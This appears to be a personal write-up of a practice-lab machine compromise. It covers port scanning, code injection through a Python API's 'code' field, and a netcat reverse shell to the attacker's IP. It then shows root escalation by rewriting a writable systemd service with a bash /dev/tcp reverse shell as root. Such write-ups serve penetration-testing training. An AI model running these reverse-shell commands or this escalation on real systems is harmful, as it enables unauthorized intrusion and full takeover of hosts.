 `nmap -A -T4 -p- 192.168.152.117`

```
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
|_http-server-header: Apache/2.4.37 (centos)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

# FTP
anon logon gets stuck in passive mode.

# SMB
Appears open but no access

![](Images/Pasted%20image%2020250504110956.png)
# HTTP

## Port 80 
is a default landing page

![](Images/Pasted%20image%2020250504111102.png)

## Port 18000
Is a landing page for an app called protomba.

![](Images/Pasted%20image%2020250504111253.png)

I couldn't find anything related to this on google.
## Port 50000 
appears to be an API of some sort. Lets see if we can break the API.

![](Images/Pasted%20image%2020250504111121.png)

![](Images/Pasted%20image%2020250504111131.png)

![](Images/Pasted%20image%2020250504111139.png)

Taking a second look at this, if its verifying out input we could potentially get execution. Lets go ahead and test some HTTP requests to see if its executing out input. Since this application is running on python we can test something like an os.system command.

Testing modification of the API I was able to modify the post request in order to get some execution

```
POST /verify HTTP/1.1
Host: 192.168.152.117:50000
Content-Type: application/x-www-form-urlencoded
Content-Length: [calculated automatically]

code=5*5
```

![](Images/Pasted%20image%2020250504113748.png)

We can use this to check if python exists. Knowing we have some execution we can establish a reverse shell

![](Images/Pasted%20image%2020250504113806.png)

`os.system("nc -e /bin/bash 192.168.45.244 18000")` to get a shell.

![](Images/Pasted%20image%2020250504114009.png)

Lets go ahead and grab the local proof

![](Images/Pasted%20image%2020250504114104.png)

# Post Exploit

Transfer over linpeas and execute.

Found something potential 

![](Images/Pasted%20image%2020250504114411.png)

we have write privileges over /etc/systemd/system/pythonapp.service

![](Images/Pasted%20image%2020250504114713.png)

We can adjust the ExecStart and the user to get an escalated shell
`/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.244/50000 0>&1'`
`User=root`

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=/bin/bash -c ‘bash -i >& /dev/tcp/192.168.45.244/50000 0>&1
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target

```

`cat <<'EOT'> /etc/systemd/system/pythonapp.service` to allow us to overwrite the file.

![](Images/Pasted%20image%2020250504121428.png)

We can use `sudo /sbin/reboot` to reboot the service to pop our root shell.

![](Images/Pasted%20image%2020250504123348.png)